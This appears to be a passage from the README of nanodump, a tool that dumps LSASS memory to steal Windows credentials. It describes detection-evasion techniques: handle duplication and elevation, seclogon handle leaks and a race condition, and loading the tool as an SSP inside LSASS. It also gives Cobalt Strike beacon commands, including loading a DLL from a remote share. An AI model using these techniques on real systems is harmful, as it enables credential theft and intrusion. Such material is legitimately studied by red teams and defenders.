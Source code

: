<h3>Handle duplication</h2>

As opening a handle to LSASS can be detected, nanodump can instead search for existing handles to LSASS.  
If one is found, it will copy it and use it to create the minidump.  
Note that it is not guaranteed to find such handle.

<h3>Elevate handle</h2>

You can obtaina handle to LSASS with PROCESS_QUERY_LIMITED_INFORMATION, which is likely to be whitelisted, and then elevate that handle by duplicating it.

<h3>Seclogon handle leak local</h2>

To avoid opening a handle to LSASS, you can use abuse the seclogon service by calling `CreateProcessWithLogonW` to leak an LSASS handle into the nanodump binary.  
To enable this feature, use the `--seclogon-leak-local` parameter.  
Take into account that when used from Cobalt Strike, an unsigned nanodump binary needs to be written to disk to use this feature.

<h3>Seclogon handle leak remote</h2>

This technique is very similar to the previous one, but instead of leaking the handle into nanodump, it is leaked into another binary and then duplicated so that nanodump can used it.
Use the `--seclogon-leak-remote` flag to access this functionality.

<h3>Seclogon handle duplication</h2>

You can trick the seclogon process to open a handle to LSASS and duplicate it before it is closed, by winning a race condition using file locks.
Use the `--seclogon-duplicate` flag to access this functionality.

<h3>Load nanodump as an SSP</h2>

You can load nanodump as an SSP in LSASS to avoid opening a handle. The dump will be written to disk with an invalid signature at `C:\Windows\Temp\report.docx` by default. Once the dump is completed, `DllMain` will return FALSE to make LSASS unload the nanodump DLL.  
To change the dump path and signature configuration, modify the function `NanoDump` in [entry.c](source/entry.c) and recompile.  

<h4>Upload and load a nanodump DLL</h3>

If used with no parameters, an unsigned nanodump DLL will be uploaded to the Temp folder. Once the dump has been created, manually delete the DLL with the `delete_file` command.  
```
beacon> load_ssp
beacon> delete_file C:\Windows\Temp\[RANDOM].dll
```
<h4>Load a local DLL</h3>

```
beacon> load_ssp c:\ssp.dll
```

<h4>Load a remote DLL</h3>

```
beacon> load_ssp \\10.10.10.10\openShare\ssp.dll
```

